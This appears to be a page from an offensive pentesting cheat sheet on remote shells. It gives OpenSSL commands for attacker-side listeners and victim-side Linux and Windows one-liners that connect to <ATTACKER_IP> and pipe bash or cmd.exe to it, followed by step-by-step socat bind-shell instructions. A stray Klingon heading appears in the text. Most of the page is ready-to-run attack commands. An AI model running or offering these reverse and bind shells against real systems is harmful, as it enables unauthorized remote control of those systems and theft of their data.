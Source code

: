 **The Attacker (Kali)**

**Qa'Hom (Kali)**
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response
```
### The Victim

The victim refers to the target of a hacking attack. In the context of penetration testing, the victim is the system or network that is being tested for vulnerabilities. It is important for a hacker to understand the victim's environment, including the operating system, software versions, and network configuration. This information helps the hacker identify potential entry points and exploit vulnerabilities. By gaining unauthorized access to the victim's system or network, the hacker can carry out various malicious activities, such as stealing sensitive data, disrupting services, or gaining control over the victim's resources.
```bash
#Linux
openssl s_client -quiet -connect <ATTACKER_IP>:<PORT1>|/bin/bash|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>

#Windows
openssl.exe s_client -quiet -connect <ATTACKER_IP>:<PORT1>|cmd.exe|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>
```
## **Socat**

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

### **Bind shell**

A bind shell is a type of shell that listens for incoming connections on a specific port. It allows an attacker to gain remote access to a target system by establishing a connection from their own machine. Socat is a versatile tool that can be used to create a bind shell on a Linux system.

To create a bind shell using Socat, follow these steps:

1. Download the Socat binary from the [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries) repository.

2. Transfer the Socat binary to the target Linux system.

3. Set the permissions of the Socat binary to make it executable: `chmod +x socat`.

4. Open a terminal on the target system and navigate to the directory where the Socat binary is located.

5. Run the following command to create a bind shell on a specific port (replace `<port>` with the desired port number): `./socat TCP-LISTEN:<port> EXEC:/bin/bash`.

6. The bind shell is now active and listening for incoming connections on the specified port.
